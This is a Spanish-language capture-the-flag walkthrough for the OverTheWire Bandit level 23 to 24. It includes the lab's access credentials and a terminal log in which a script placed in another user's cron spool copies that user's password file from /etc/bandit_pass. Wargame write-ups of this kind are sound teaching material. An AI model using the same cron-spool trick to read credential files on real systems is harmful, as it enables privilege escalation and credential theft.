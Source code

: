 ### Objetivo
Un programa se ejecuta automáticamente a intervalos regulares desde cron, el programador de trabajos basado en el tiempo. Busque en /etc/cron.d/ la configuración y vea qué comando se está ejecutando.

NOTA: Este nivel requiere que cree su propio primer script de shell. ¡Este es un gran paso y deberías estar orgulloso de ti mismo cuando superes este nivel!

NOTA 2: Tenga en cuenta que su script de shell se elimina una vez ejecutado, por lo que es posible que desee conservar una copia...
### Datos de acceso
- Puerto: 2220
- Dirección: bandit.labs.overthewire.org
- Contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
- Usuario: bandit23
### Solución

```bash
bandit23@bandit:/tmp$ mkdir tmpmisdf

cat /etc/bandit_pass/bandit24 >
bandit23@bandit:/tmp$ cd tmpmisdf
bandit23@bandit:/tmp/tmpmisdf$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

cat /etc/bandit_pass/bandit24 > /tmp/tmpmisdf/key.txt
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/tmp/tmpmisdf$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/tmp/tmpmisdf$ vim
bandit23@bandit:/tmp/tmpmisdf$ vim password.sh
bandit23@bandit:/tmp/tmpmisdf$ cat /etc/bandit_pass/bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
bandit23@bandit:/tmp/tmpmisdf$ vim password.sh
bandit23@bandit:/tmp/tmpmisdf$ pwd
/tmp/tmpmisdf
bandit23@bandit:/tmp/tmpmisdf$ vim password.sh
bandit23@bandit:/tmp/tmpmisdf$ cat password.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmpmisdf/key.txt
bandit23@bandit:/tmp/tmpmisdf$ chmod +rx password.sh
bandit23@bandit:/tmp/tmpmisdf$ cp password.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmpmisdf$ ls
password.sh
bandit23@bandit:/tmp/tmpmisdf$ chmod +rwx /tmp/tmpmisdf
bandit23@bandit:/tmp/tmpmisdf$ ls
password.sh
bandit23@bandit:/tmp/tmpmisdf$ ls
password.sh
bandit23@bandit:/tmp/tmpmisdf$ ls
password.sh
bandit23@bandit:/tmp/tmpmisdf$ ls
password.sh
bandit23@bandit:/tmp/tmpmisdf$ ls
password.sh
bandit23@bandit:/tmp/tmpmisdf$ touch key.txt
bandit23@bandit:/tmp/tmpmisdf$ chmod 777 key.txt
bandit23@bandit:/tmp/tmpmisdf$ ls
key.txt  password.sh
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
bandit23@bandit:/tmp/tmpmisdf$ ls -la
total 408
drwxrwxr-x   2 bandit23 bandit23   4096 Feb 22 21:36 .
drwxrwx-wt 277 root     root     405504 Feb 22 21:37 ..
-rwxrwxrwx   1 bandit23 bandit23      0 Feb 22 21:36 key.txt
-rwxrwxr-x   1 bandit23 bandit23     54 Feb 22 21:31 password.sh
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
bandit23@bandit:/tmp/tmpmisdf$ ls /var/spool/bandit24/foo
ls: cannot open directory '/var/spool/bandit24/foo': Permission denied
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
bandit23@bandit:/tmp/tmpmisdf$ cp password.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmpmisdf$ cat key.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/tmpmisdf$
```

### Notas adicionales


### Referencias
